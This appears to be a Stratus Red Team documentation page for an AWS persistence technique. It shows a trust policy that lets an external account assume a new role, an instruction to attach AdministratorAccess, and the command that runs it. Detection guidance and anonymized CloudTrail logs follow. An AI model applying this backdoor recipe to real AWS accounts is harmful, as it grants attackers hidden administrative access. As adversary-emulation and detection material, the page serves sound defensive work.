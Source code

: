 ```yaml
---
title: Create a backdoored IAM Role
---
```


# Create a backdoored IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a new backdoor role with a trust policy allowing it to be assumed from 
an external, fictitious attack AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with the following trust policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

- Attach the 'AdministratorAccess' managed IAM policy to it. 

*Note: For safety reasons, the detonation code makes sure that this role has no real effective permissions, by attaching a permissions boundary denying all actions. This could also be achieved with an inline role policy, but using a permissions boundary allows us to use a single API call (CreateRole).*

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me
- https://unit42.paloaltonetworks.com/large-scale-cloud-extortion-operation/


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:AttachRolePolicy`

- `iam:CreateRole`


??? "View raw detonation logs"

    ```json hl_lines="6 40"

    [
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "39480357-0a1d-4531-a3f2-71be4c041c25",
	      "eventName": "AttachRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "09b3fc1c-c0c0-4e86-9bad-e0928a089e0d",
	      "requestParameters": {
	         "policyArn": "arn:aws:iam::aws:policy/AdministratorAccess",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   },
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "d2905ac3-9898-433f-b10d-9302abe4e208",
	      "eventName": "CreateRole",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "105d4d57-6f6d-43ce-b6a4-5b67c68b4ab5",
	      "requestParameters": {
	         "assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "permissionsBoundary": "arn:aws:iam::aws:policy/AWSDenyAll",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": {
	         "role": {
	            "arn": "arn:aws:iam::609418236337:role/stratus-red-team-malicious-iam-role",
	            "assumeRolePolicyDocument": "%7B%0A%20%20%22Version%22%3A%20%222012-10-17%22%2C%0A%20%20%22Statement%22%3A%20%5B%0A%20%20%20%20%7B%0A%20%20%20%20%20%20%22Effect%22%3A%20%22Allow%22%2C%0A%20%20%20%20%20%20%22Principal%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22AWS%22%3A%20%22arn%3Aaws%3Aiam%3A%3A193672423079%3Aroot%22%0A%20%20%20%20%20%20%7D%2C%0A%20%20%20%20%20%20%22Action%22%3A%20%22sts%3AAssumeRole%22%0A%20%20%20%20%7D%0A%20%20%5D%0A%7D",
	            "createDate": "Aug 1, 2024 1:37:41 PM",
	            "path": "/",
	            "permissionsBoundary": {
	               "permissionsBoundaryArn": "arn:aws:iam::aws:policy/AWSDenyAll",
	               "permissionsBoundaryType": "Policy"
	            },
	            "roleId": "AROA53G8Z8NGXMJ597G3E",
	            "roleName": "stratus-red-team-malicious-iam-role"
	         }
	      },
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
